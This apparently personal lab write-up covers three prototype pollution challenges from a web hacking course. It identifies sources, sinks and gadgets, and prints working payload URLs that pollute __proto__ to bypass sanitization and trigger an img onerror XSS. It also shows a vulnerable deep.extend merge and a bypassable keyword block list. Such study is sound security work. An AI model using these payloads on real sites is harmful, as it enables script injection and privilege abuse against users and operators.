 # Challenge 01
Finding the source:
	We can find user input in the title filter text
### Finding the sink and source
Upon inspecting the code we can see an unused feature where the url params are used as user settings by
location.search.substring

```js
        // Use URL parameters as user settings
let userSettings = $.deparam(location.search.substring(1));
let mergedSettings = Object.assign({}, defaultSettings, userSettings);

```
Our source is param (1)
Which affects directly our sink mergedSettings, thanks to the object assign function


Then gets merged with the defaultsettings object

If the passed param is "message", it gets sanitized and rendered in the site

```js
       // Protection against XSS via the message parameter
    if (Object.prototype.hasOwnProperty.call(userSettings, 'message')) {
            mergedSettings.message = sanitizeHTML(userSettings.message);
        }

```


### Finding the gadget
In this case, our gadget is most likely the rendered message

We can see that we are able to pollute all the way to the object prototype
[! alt](awh-proto1-1.png)

So now every object in the site has the property message, including the mergedSettings.message gadget. This allows us to skip the sanitize check

![alt](awh-proto1-2.png)

# Challenge 02
### Finding a source
Query params
![alt](awh-proto-2-1.png)

### Finding a sink
userPreferences object merges with current preferences object
![alt](awh-proto-2-2.png)


### Finding a gadget
Dynamic message rendered from Object {}

![alt](awh-proto-2-3.png)

On first attempt to prototype pollute I got the following console error


```
file:///home/kali/advancedwebhacking/AWH-PP-Lab3-challenge/index.html?updateSettings=__proto__[asd]=%22asd%22
```

![alt](awh-proto-2-4.png)


This indicated that the application was expecting a JSON object


From the sink we see the following logic:
1. getQueryParams (source) - fetches the value of whatever updateSettings has
2. loads local storage preferences
3. Merges localstorage and updateSettings object
4. SavePreferences()
	1. Save preferences uses a JSON object, so we must send our object in that notation

Doing this we can pollute the prototype

```
file:///home/kali/advancedwebhacking/AWH-PP-Lab3-challenge/index.html?updateSettings={%22__proto__%22:{%22message%22:%22dassdasd%22}}
```

![alt](awh-proto-2-5.png)


```
file:///home/kali/advancedwebhacking/AWH-PP-Lab3-challenge/index.html?updateSettings={%22__proto__%22:{%22message%22:%22%3Cimg%20src=x%20onerror=prompt(%27pwned%27)%3E%22}}
```

![alt](awh-proto-2-6.png)



##### npm audit
Its usefull for looking into known vulnerabilities for  libraries


### Challenge 03
First thing we can do is npm audit since we have access to source code
we find a vulnerable dependency on deep 
![alt](awh-proto-3-1.png)

This makes it fairly straight forward

The whole application is contained into a single js file, this file contains one reference of deep, used to make a copy from an  object to another object. The request object merges into the taskDefaults params

```js
app.post("/tasks/edit/:id", (req, res) => {
	const taskId = req.params.id;
	const userId = req.session.userId;
	const isAdmin = req.session.role === "admin";

	let taskDefaults = {
		title: "",
		description: "",
		priority: "",
		tags: "",
		deadline: "",
		status: "",
	};

	taskDefaults = deep.extend(taskDefaults, req.body);
```
If we make the request as its meant to, we will hit a wall, as it only merges the param strings into the object

![alt](awh-proto-3-2.png)

Since this application uses body-parser, we can just send a json object in the request and it will get converted on the server, for this we need to change the request content type header into application/json

![alt](awh-proto-3-3.png)

This will get merged into the object, and get passed all the way to the object prototype in the chain

![alt](awh-3-4.png)

###### Things to note
This app had filters, but these were only applicable on the front end so I decided to upright ignore them

```js
function parseQueryString(queryString) {
    const params = {};
    const urlParams = new URLSearchParams(queryString);
    const blockedKeywords = ["__proto__", "constructor", "prototype"];

    function filterAndConcatenate(key) {
        let filteredKey = key;

        blockedKeywords.forEach(blocked => {
            filteredKey = filteredKey.split(blocked).join("");
        });
        
        return filteredKey; 
    }

    urlParams.forEach((value, key) => {
        const keys = key.split("[").map(k => k.replace("]", ""));
        const filteredKeys = keys.map(filterAndConcatenate);

        filteredKeys.reduce((acc, cur, idx) => {
            if (idx === filteredKeys.length - 1) {
                acc[cur] = value;
            } else {
                acc[cur] = acc[cur] || {};
            }
            return acc[cur];
        }, params);
    });

    return params;
}


function merge(target, source) {
	for (const key in source) {
		if (source[key] && typeof source[key] === "object") {
			if (target[key]) {
				target[key] = {};
			}
			merge(target[key], source[key]);
		} else {
			target[key] = source[key];
		}
	}
	return target;
}

```
This app also had many technologies, such as ejs templates and jquery, so I don't discard an XSS trough prototype pollution too




